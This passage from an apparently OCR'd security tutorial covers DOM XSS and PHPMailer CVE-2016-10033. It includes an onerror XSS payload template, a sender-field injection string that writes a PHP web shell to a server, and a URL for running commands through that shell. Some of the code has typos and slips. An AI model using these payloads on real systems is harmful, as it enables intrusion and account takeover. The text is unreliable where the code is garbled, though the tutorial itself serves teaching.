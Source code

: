 ```html
var search = document.getElementById('username').value;
var results = document.getElementById('results');
results.innerHTML = 'Your username is : ' + username;

```

Hear attacker can control the value of input field so that they can create their own malicious payload and execute it

```html
 Your username is : <img src=1 onerror='/* Your Payload */'>
```

##### Impact of DOM XSS

* Account Hijacking : Attackers often steal session cookies in the browser to hijack user accounts.
* Credential Theft  : Attackers can clone the page and sent that page to victim and victim use credentials and its forward to attacker.
* Data Leakage : attacker has access to the personal or sensitive information of users

## PHPMailer CVE-2016-10033

This bug is very interesting and very easy to exploit. Let's breakdown the basic Functionality of PHPMailer.

```steps
 1) PHPMailer gets user requests
 
 2) PHPMailer validates the user supplied information
 
 3) PHPMailer sends the information to the PHP mail() function to send the email.
```

### Bug

The problem here is PHPMailer does not clean the user supplied email values before sending it to the PHP mail() function. it basically returns `$result` and pass it to mail() function.

### Exploitation

The exploitation is simple

`"malicious@127.0.0.1\" -oQ/tmp/ -X/var/www/malicious.php  root"@127.0.0.1`

Pass this into `FROM` field and your PHP code into mail body.

```malicious
<?php system$(_GET["command"]); ?>
```

intercept the request and edit the request in it and forward it or you can just simply change type from `mail` to `text` and send.

So in the above code we are basically creating a file `malicious.php` and the code of that file is in `body` of the mail.

now just visit :
`https://vulnerablesite.com/malicious.php?command=whaomi`

